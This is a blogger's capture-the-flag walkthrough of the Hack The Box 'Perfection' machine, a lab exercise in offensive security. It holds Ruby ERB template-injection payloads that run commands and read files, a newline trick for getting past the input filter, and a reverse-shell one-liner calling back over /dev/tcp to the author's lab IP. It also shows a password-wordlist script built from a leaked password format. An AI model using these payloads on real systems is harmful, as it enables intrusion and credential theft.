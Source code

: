 ```yaml
---
title: "Perfection Walkthrough(Hack The Box)"
date: 2025-03-14
draft: false 
description: "Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the `sudo` group. Further enumeration uncovers a database with password hashes, and the user&amp;amp;#039;s mail reveals a possible password format. Using a mask attack on the hash, the user&amp;amp;#039;s password is obtained, which is leveraged to gain `root` access."
tags: ["Easy", "Linux", "Hack The Box", "hacking","walkthrough", "web"]
---
```


## Reconnaissance && Enumeration  
- Nmap scan results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Uptime guess: 15.030 days (since Tue Dec 31 22:06:01 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- I was hanging around the website to find anything interesting, I am not gonna lie the website is both basic and neat
![gif](https://media1.tenor.com/m/RKfVkcF5d38AAAAC/well-made-sungwon-cho.gif)
- After a while I foud this Weighted grade calculator interesting
![Pasted image 20250116004126.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116004126.png?raw=true)
- In the footer of the page it shows/exposes that the website powered by `WEBrick 1.7.0`. So I noted it down.
- After some bunch of research I learnt that WEBrick uses Ruby to run. If I can recall I think there is even a module in ruby named Webrick. I'll leave the details below
{{< details summary="View the attached Links" >}} [Link-1 ](https://docs.ruby-lang.org/en/2.4.0/WEBrick.html) <br> [Link-2](https://github.com/ruby/webrick) <br> [Link-3](https://en.wikipedia.org/wiki/WEBrick) {{< /details >}}

- Like in python SSTI are possible for Ruby and as this a calculator it gives us more clue to work on that. So I jumped the gun
![gun](https://media1.tenor.com/m/UrhCgLoVcAcAAAAC/just-jump-the-gun-harry-jowsey.gif)
- This article showcases the SSTI on a WEBrick made site, talk about being lucky, lol --> [Link here](https://trustedsec.com/blog/rubyerb-template-injection)
![lucky](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNjY3NjB3ZHAycjl5Nmg5cDk5NjVvMWR1bnJxNTZza3dvZWNoeHlkMiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/THfsqxdJ6K0MrTutIb/giphy.gif)
- This [Medium article](https://medium.com/@bdemir/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68) helped me a lot with payloads for the ruby SSTI and while I was testing It, I couldn't get any valid results
![Pasted image 20250116005312.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005312.png?raw=true)
- Below contains the example payloads for Ruby. These are some of the payloads that I used for SSTI
```ruby
<%= system("whoami") %>  
<%= Dir.entries('/') %>  
<%= File.open('/example/arbitrary-file').read %>
```
## Exploitation
- Some payload worked after little tweaks, But blocked by the web page as `Malicious Input` anyway. Hey atleast we got something
![Pasted image 20250116005529.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005529.png?raw=true)
- No matter how I URL encode, it didn't even worked. Probably the site blocks the symbols in the payload hmm...
![thinking](https://media.giphy.com/media/kPtv3UIPrv36cjxqLs/giphy.gif?cid=790b7611ou1885fjp6ktw531ypmpolj0xnsuejgxhz89xpis&ep=v1_gifs_search&rid=giphy.gif&ct=g)
- I learnt that URL encoded value of new-line`(%0a`) helps in bypassing SSTI validation So I used that before the payload as prefix and like a magic it worked
- The `whoami` doesn't return any output
![Pasted image 20250116010747.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010747.png?raw=true)
- I tried hitting my machine for a check, and I got the request 
![Pasted image 20250116010907.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010907.png?raw=true)
- Request: 
![Pasted image 20250116010943.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010943.png?raw=true)
- As everything works fine its time for us to brew the cursed reverse shell payload
![brewing](https://media1.tenor.com/m/6uyO5POa2TMAAAAC/creepy-creep.gif) 
```bash
%0a<%25%3d+system("bash+-c+'exec+bash+-i+%26>/dev/tcp/10.10.14.10/7001+<%261'")+%25>
```
- It worked and we are as user `susan` now
- Secured {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20250116011350.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116011350.png?raw=true)

## Privilege Escalation
- While enumerating I found two other folders wihin user `susan's` home directory 
![Pasted image 20250116015043.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015043.png?raw=true)
- `Migration` folder had sqlite database file so for a change I opened the file in the target system itself
- The database had only one table called `users` . Inside that table, password hashes for five users were included
![Pasted image 20250116015454.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015454.png?raw=true)
- The hashes were made from using `sha256` algorithm
![Pasted image 20250116015710.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015710.png?raw=true)
- I tried cracking the hashes using my tool [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously sha256_cracker), But it failed
![Pasted image 20250116020022.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020022.png?raw=true)
- Then, I started enumerating system further for privesc vectors and rather I found this `/var/mail`
- Inside `/var/mail/susan` the message reads 
```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
```
- As per the instructions I created a python script to make password list for user `susan`
```python
output_file = "susan_nasus_password.txt"

with open(output_file, "w") as file:
    for number in range(1, 1_000_000_001):
        file.write(f"susan_nasus_{number}\n")

print(f"File '{output_file}' has been successfully created.")
```
- This would be both easy and fast when using bash 
```bash
for ((i=1; i<=1000000000; i++)); do echo "susan_nasus_$i" >> "$output_file"
```
- With the new wordlists I fired up my tool again and got the password
![Pasted image 20250116020736.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020736.png?raw=true)
- You can get my tool from here [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously known as sha256_cracker). More features will be added by the time of your visit
![mine](https://media1.tenor.com/m/CyLsZhMXHioAAAAC/mine-is-the-best-mariah-milano.gif)
- Using the password I logged in via SSH as user `susan`
- I really wasn't expecting this twist I was hoping for more steps, anyway I am glad. See this yourself lol
- User `susan` can run sudo without any password
![are-we-a-joke](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTRmZG9ienp5dW1qYW1xZTExYTdlejgyaW9wNjU3bXVmem9hZTU2cCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/9ppWJumH0DiZ6co7ee/giphy.gif)
![Pasted image 20250116021417.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021417.png?raw=true)
- Got the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20250116021446.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021446.png?raw=true)

{{< typeit >}} Anyway guys, this concludes it this was a fun box but not particularly easy as rated. I hope you liked this post and don't forget to share this post, Fun fact we have share links for almost every platform.. look below. Emp5r0R  signing off... {{< /typeit >}}

![bye](https://media1.tenor.com/m/S1xOjTOnwLgAAAAd/masters-of-the-universe-skeletor-mot-u.gif)
